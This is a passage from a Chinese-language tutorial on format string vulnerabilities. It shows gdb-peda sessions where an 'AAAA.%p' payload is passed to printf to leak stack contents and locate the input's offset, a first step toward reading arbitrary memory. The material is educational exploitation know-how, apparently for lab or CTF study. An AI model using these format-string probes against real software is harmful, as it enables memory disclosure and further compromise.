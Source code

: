 上面的例子只能读取栈中已有的内容，如果我们想获取的是任意的地址的内容，就需要我们自己将地址写入到栈中。我们输入 `AAAA.%p` 这样的格式的字符串，观察一下栈有什么变化。

```text
gdb-peda$ python print("AAAA"+".%p"*20)
AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
...
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffffd584 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
EBX: 0x56557000 --> 0x1efc
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd618 --> 0x0
ESP: 0xffffd550 --> 0xffffd584 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
EIP: 0x56555642 (<main+133>:    call   0x56555430 <printf@plt>)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56555638 <main+123>:       push   DWORD PTR [ebp-0xc]
   0x5655563b <main+126>:       lea    eax,[ebp-0x94]
   0x56555641 <main+132>:       push   eax
=> 0x56555642 <main+133>:       call   0x56555430 <printf@plt>
   0x56555647 <main+138>:       add    esp,0x20
   0x5655564a <main+141>:       sub    esp,0xc
   0x5655564d <main+144>:       push   0xa
   0x5655564f <main+146>:       call   0x56555450 <putchar@plt>
Guessed arguments:
arg[0]: 0xffffd584 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
arg[1]: 0x1
arg[2]: 0x88888888
arg[3]: 0xffffffff
arg[4]: 0xffffd57a ("ABCD")
[------------------------------------stack-------------------------------------]
0000| 0xffffd550 --> 0xffffd584 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
0004| 0xffffd554 --> 0x1
0008| 0xffffd558 --> 0x88888888
0012| 0xffffd55c --> 0xffffffff
0016| 0xffffd560 --> 0xffffd57a ("ABCD")
0020| 0xffffd564 --> 0xffffd584 ("AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
0024| 0xffffd568 (" RUV\327UUVT\332\377\367\001")
0028| 0xffffd56c --> 0x565555d7 (<main+26>:     add    ebx,0x1a29)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x56555642 in main ()
```

格式字符串的地址在 `0xffffd584`，从下面的输出中可以看到它们在栈中是怎样排布的：

```text
gdb-peda$ x/20w $esp
0xffffd550:     0xffffd584      0x00000001      0x88888888      0xffffffff
0xffffd560:     0xffffd57a      0xffffd584      0x56555220      0x565555d7
0xffffd570:     0xf7ffda54      0x00000001      0x424135d0      0x00004443
0xffffd580:     0x00000000      0x41414141      0x2e70252e      0x252e7025
0xffffd590:     0x70252e70      0x2e70252e      0x252e7025      0x70252e70
gdb-peda$ x/20wb 0xffffd584
0xffffd584:     0x41    0x41    0x41    0x41    0x2e    0x25    0x70    0x2e
0xffffd58c:     0x25    0x70    0x2e    0x25    0x70    0x2e    0x25    0x70
0xffffd594:     0x2e    0x25    0x70    0x2e
gdb-peda$ python print('\x2e\x25\x70')
.%p
```
